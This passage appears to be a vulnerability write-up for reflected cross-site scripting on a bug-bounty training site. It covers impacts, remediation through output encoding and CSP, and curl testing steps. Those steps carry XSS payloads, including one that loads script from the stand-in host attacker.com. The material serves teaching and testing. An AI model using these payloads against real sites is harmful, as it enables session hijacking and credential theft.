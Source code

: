 #### Impact
- **Session Hijacking:** Steal authentication cookies and session tokens
- **Credential Theft:** Capture user credentials through fake forms
- **Malware Distribution:** Redirect users to malicious downloads
- **Data Exfiltration:** Access sensitive user information

#### Recommended Remediation
1. **Input Sanitization:**
   ```php
   // Example for index.php
   $safe_input = htmlspecialchars($_GET['act'], ENT_QUOTES, 'UTF-8');
   
   // Test URL: https://www.bugbountytraining.com/fastfoodhackings/index.php?act=<script>alert('XSS')</script>
   ```
2. **Content Security Policy:**
   ```
   Content-Security-Policy: default-src 'self'; script-src 'self'
   ```
3. **Output Encoding:** Properly encode all user-controlled data before rendering
4. **Parameter Validation:** Validate and sanitize all GET/POST parameters before processing

#### Manual Testing Steps
1. **Basic XSS Payload Testing:**
   ```bash
   # Test basic script injection
   curl "https://www.bugbountytraining.com/fastfoodhackings/index.php?act=<script>alert('XSS')</script>"
   
   # Test HTML injection
   curl "https://www.bugbountytraining.com/fastfoodhackings/index.php?act=<h1>HTML_INJECTION</h1>"
   
   # Test event handler injection
   curl "https://www.bugbountytraining.com/fastfoodhackings/index.php?act=<img src=x onerror=alert('XSS')>"
   ```

2. **URL Encoded Payload Testing:**
   ```bash
   # Test URL encoded payloads (as discovered)
   curl "https://www.bugbountytraining.com/fastfoodhackings/index.php?act=--%3E%3Cscript%3Ealert(2)%3C%2Fscript"
   
   # Test encoded image tag
   curl "https://www.bugbountytraining.com/fastfoodhackings/index.php?act=--%3E%3Cimg%20src=x%20onerror=alert(2)"
   ```

3. **Challenge Endpoints Testing:**
   ```bash
   # Test XSS on challenge endpoints
   curl "https://www.bugbountytraining.com/challenges/challenge-1.php?query=<script>alert(1)</script>"
   
   # Test external script loading
   curl "https://www.bugbountytraining.com/challenges/challenge-1.php?query=<script src=//attacker.com/xss.js></script>"
   ```
